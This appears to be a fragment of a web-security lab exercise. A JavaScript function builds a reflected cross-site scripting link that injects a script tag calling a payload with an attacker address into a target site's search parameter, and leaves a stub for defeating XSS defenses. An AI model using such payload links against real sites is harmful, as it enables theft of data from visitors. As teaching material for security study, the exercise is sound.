

function makeLink(xssdefense, target, attacker) {
    if (xssdefense == 0) {
        return target + "./search?xssdefense=" + xssdefense.toString() + "&q=" +
            encodeURIComponent("<script" + ">" + payload.toString() +
                               ";payload(\"" + attacker + "\");</script" + ">");
    } else {
        // Implement code to defeat XSS defenses here.
    }
}